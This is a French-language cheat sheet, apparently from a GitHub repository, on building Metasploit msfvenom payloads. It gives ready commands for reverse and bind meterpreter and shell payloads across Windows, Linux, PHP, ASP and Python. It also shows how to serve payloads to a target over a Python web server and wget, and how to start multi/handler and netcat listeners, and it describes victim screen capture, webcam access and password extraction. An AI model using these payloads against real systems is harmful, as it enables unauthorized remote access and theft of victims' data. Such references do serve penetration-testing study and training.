 # MSFVENOM de metasploit 

## Généralités

 MSFvenom est un générateur de payload autonome faisant partie de la suite Metasploit. Un payload est un fichier malveillant et son but est d’obtenir des informations sur la machine sur laquelle il est exécuté. Il existe beaucoup de types de payload, en voici un bel assortiment spécialement conçu pour s’adapter à toutes les situations sur une machine Windows. Ici nous pouvons générer des PL shell ou meterpreter mais quelle est la différence ? Un shell c’est basique c’est juste l’invité de commandes, alors qu’un meterpreter lui permet de lancer des commandes bien différentes, tout en conservant l’accès au shell basique. On peut lui demander par exemple d’enregistrer l’écran de la victime, accéder à sa webcam, extraire ses mots de passe et bien plus encore. 


## Syntaxe globale msfvenom

```bash
msfvenom -p <payload> [options]
```
## Télécharger un payload sur une machine cible 

Une fois qu'on est sur la machine cible, il faut pouvoir lui transmettre la payload. Pour cela il est possible d'utiliser un serveur web.

Le plus simple étant de générer un serveur web sur la machine attaquante (ayant la payload) via python.

```bash
python3 -m http.server [PORT]
```
Le port de base est 80 mais il est conseillé d'utiliser un autre port tel que 9000.
Ainsi on crée un serveur web sur la machine attaquante qui liste l'ensemble des fichiers de la machine attaquante. Il suffit ensuite de télécharger la payload sur la machine cible via la commande wget.

```bash
sudo wget http://<IP>:<PORT>/payload
```

## Exécuter une payload sur une machine cible

Il ne faut pas oublier de changer les droits du fichier exécutable de payload une fois sur la machine cible si on ne peut pas l'éxécuter.

```bash
chmod +x payload
```



## Types de payload

### Les payloads php 

/!\ Les payloads php sont générées avec des commentaires. Il faut donc supprimer les commentaires (en utilisant nano par exemple).

### Linux Executable and Linkable Format (ELF)

Le format .elf est comparable au format .exe de Windows. Il s'agit de fichiers exécutables pour Linux. Cependant, vous devrez peut-être vous assurer qu'ils disposent des droits d'exécution sur la machine cible. Par exemple, une fois que vous avez le fichier shell.elf sur votre machine cible, utilisez la commande chmod +x shell.elf pour accorder les permissions d'exécution. Une fois cela fait, vous pouvez exécuter ce fichier en tapant ./shell.elf sur la ligne de commande de la machine cible.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > /home/kali/Bureau/payload.elf
```

### Windows

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```

### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```

### Python
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

### Le bind shell


Le Bind Shell c’est quand la machine victime se connecte elle-même au Kali. 

Génération du payload :

```bash
msfvenom -p windows/meterpreter/bind_tcp -f exe > /home/kali/Bureau/bind.exe
```

Lancement du listener :

```bash
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > run
```

### Le reverse TCP

Avec le Reverse TCP c’est le Kali Linux qui écoute sur un port et attends que la victime se connecte.

Génération du payload :

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost= [IP] lport=5555 -f exe > /home/kali/Bureau/reverse_tcp.exe
```

Lancement du listener :

```bash
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > run
``` 

### Le HTTP payload

Le HTTP payload permet d’ouvrir une session sur une machine qui aurait ses ports de fermés, en passant par le port 443 ouvert par défaut.

Génération du payload :

```bash
msfvenom -p windows/meterpreter/reverse_https lhost= [IP] lport=443 -f exe > /home/kali/Bureau/reverse_https.exe
```

Lancement du listener :

```bash
sudo msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > run
```

### Le Netcat Reverse shell

Génération du payload :

```bash
msfvenom -p windows/shell_reverse_tcp ahost= [IP] lport=1111 -f exe > /home/kali/Bureau/ncshell.exe
```

Lancement du listener :

```bash
nc -lvp 1111
```

### Windows Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Meterpreter (x64)

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Meterpreter (x86)

```bash
msfvenom -p windows/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Reverse Shell

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Reverse Shell (x64)

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Reverse Shell (x86)

```bash
msfvenom -p windows/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```

### Windows Reverse Shell (x86) (Non Staged)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe
```
